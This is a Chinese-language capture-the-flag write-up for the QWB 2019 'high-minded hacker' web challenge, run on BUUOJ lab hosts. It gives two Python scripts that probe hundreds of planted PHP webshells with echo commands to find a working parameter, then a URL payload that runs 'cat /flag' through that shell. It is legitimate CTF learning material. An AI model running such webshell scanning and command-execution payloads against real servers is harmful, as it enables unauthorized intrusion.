


# 强网杯2019-高明的黑客1

首先启动靶机并访问。



让我们下载www.tar.gz

我们直接下载

```
http://2cb4c879-874a-4136-b065-d72be226271a.node5.buuoj.cn:81/www.tar.gz
```

下载下来发现有很多的webshell，但是我们要找到可以利用的webshell，手动一个个查看很难，所以要使用脚本



python脚本

```
import re
import os
import requests

files = os.listdir(r'E:\CTF\phpstudy\phpstudy_pro\WWW\src')    #获取路径下的所有文件
reg = re.compile(r'(?<=_GET\[\').*(?=\'\])')   #设置正则
for i in files:                #从第一个文件开始
    url = "http://7f89144b-0ea3-4778-a8a2-253794458c23.node4.buuoj.cn:81/" + i
    f = open(r"E:\CTF\phpstudy\phpstudy_pro\WWW\src/"+i,encoding='UTF-8')       #打开这个文件
    data = f.read()           #读取文件内容
    f.close()                 #关闭文件
    result = reg.findall(data)  #从文件中找到GET请求
    for j in result:           #从第一个GET参数开始
        payload = url + "?" + j + "=echo 123456"   ##尝试请求次路径，并执行命令
        print(payload)     #输出payload
        html = requests.get(payload)  #获取返回内容
        if "123456" in html.text:
            print("就是它了！：")    #判断返回内容有123456的及可以利用
            print(payload)
            exit(1)
            
            
```

或者

这个快一点

```
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)                                            #这儿设置最大的线程数
filePath = r"D:/phpstudy_pro/WWW/src"                   #自己替换为文件所在目录
os.chdir(filePath)                                                    #改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5                                #设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False                                             # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()                                                
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:                            #打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}                                                        #所有的$_POST
    params = {}                                                        #所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file                      #自己替换为本地url
    req = session.post(url, data=data, params=params)            #一次性请求所有的GET和POST
    req.close()                                                # 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:                                    #如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()                                                # 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()                                                # 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:                                                    #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:                                                            #加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

成功查到可以利用的webshell和参数

```
xk0SzyKwfzw.php?Efa5BVG=
```

---

payload：

```
http://2cb4c879-874a-4136-b065-d72be226271a.node5.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag
```

